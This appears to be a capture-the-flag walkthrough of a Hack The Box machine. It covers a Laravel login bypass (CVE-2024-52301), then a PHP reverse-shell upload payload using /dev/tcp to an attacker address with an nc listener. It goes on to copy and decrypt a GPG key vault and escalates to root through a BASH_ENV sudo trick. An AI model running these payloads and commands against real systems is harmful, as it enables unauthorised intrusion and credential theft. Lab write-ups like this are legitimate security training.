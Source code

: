 ## 🔍 Enumeration

```bash
nmap -sV -sC 10.10.11.67
```

Revealed SSH (OpenSSH 9.2p1) and HTTP (nginx / Laravel 11.30.0)

Update `/etc/hosts`:

```
10.10.11.67 environment.htb
```

so you can access via browser.

## 🧠 Exploitation: Auth Bypass (CVE‑2024‑52301)

Laravel 11.30.0 is vulnerable to `--env` override to bypass login logic.

Open Burp or intercept login POST request.

Modify request line from:

```http
POST /login HTTP/1.1
```

to:

```http
POST /login?--env=preprod HTTP/1.1
```

Forward request → you get redirected to `/dashboard` as unauthenticated user.

You are now “logged in” to dashboard section.

## 🐚 RCE via Profile Upload

Prepare reverse shell payload (double-dot extension needed):

```bash
cat <<EOF > shell.php..
GIF89a
<?php system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.141/4444 0>&1'"); ?>
EOF
```

Start listener on your machine:

```bash
nc -lvnp 4444
```

Upload via profile page: Dashboard → Profile upload form → select `shell.php..` → Upload

HTML shows:

```html
<img src=/storage/files/shell1.php. ... >
```

Trigger reverse shell:

```url
http://environment.htb/storage/files/shell1.php.
```

You get a shell as www-data:

```bash
www-data@environment:~$ whoami && id && hostname
```

## 🧩 Capturing user.txt

```bash
sudo -u www-data find / -name user.txt 2>/dev/null
cat /home/hish/user.txt
```

✅ Captured user flag

## 🧪 Privilege Escalation: GPG ‑> SSH to hish

Copy keyvault and gnupg dir via reverse shell:

```bash
cd /home/hish/backup
cp keyvault.gpg /tmp/xfil/
```

From Kali:

```bash
wget http://10.10.11.67:8000/keyvault.gpg
```

On Kali, decrypt:

```bash
gpg --import private_key.asc
gpg --decrypt keyvault.gpg
```

You recover passwords:

```
ENVIRONMENT.HTB -> marineSPm@ster!!
```

SSH into hish:

```bash
ssh hish@environment.htb
# Password: marineSPm@ster!!
whoami && id
```

## ⚙️ Privilege Escalation to Root via systeminfo PATH hijack

Check sudo permissions:

```bash
sudo -l
```

Shows hish can run `/usr/bin/systeminfo` as root, and `BASH_ENV` is kept.

Create malicious script:

```bash
echo '/bin/bash' > /tmp/root.sh
chmod +x /tmp/root.sh
```

Set `BASH_ENV` and invoke sudo:

```bash
export BASH_ENV=/tmp/root.sh
sudo /usr/bin/systeminfo
```

You now receive a root shell:

```bash
whoami
cat /root/root.txt
```

## 📝 Summary & Commands Table

| Phase               | Key Commands |
|---------------------|--------------|
| Enumeration         | `nmap`, modify `/etc/hosts` |
| Auth Bypass         | Burp → `POST /login?--env=preprod` |
| Reverse Shell       | Crafted `shell.php..`, upload, visit path |
| User Flag           | `cat /home/hish/user.txt` |
| GPG Decryption      | `gpg --decrypt keyvault.gpg` |
| SSH to hish         | `ssh hish@...` |
| Privilege Escalation| `echo '/bin/bash' > /tmp/root.sh`, `sudo /usr/bin/systeminfo` with `BASH_ENV` set |
